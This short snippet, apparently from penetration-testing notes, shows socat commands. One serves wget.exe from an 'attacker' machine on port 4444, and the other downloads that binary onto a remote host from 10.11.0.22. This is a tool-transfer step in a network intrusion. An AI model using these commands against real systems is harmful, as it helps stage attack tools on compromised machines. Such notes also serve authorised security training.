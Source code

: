 # 1) Share file from attacker
```sh
FILE_TO_SHARE=/usr/share/windows-resources/binaries/wget.exe
LPORT=4444
sudo socat TCP4-LISTEN:$LPORT,fork file:$FILE_TO_SHARE
```

# 2) Downloading the file from remote host
```sh
RHOST=10.11.0.22
RPORT=4444
socat TCP4:$RHOST:$RPORT file:wget.exe,create
```
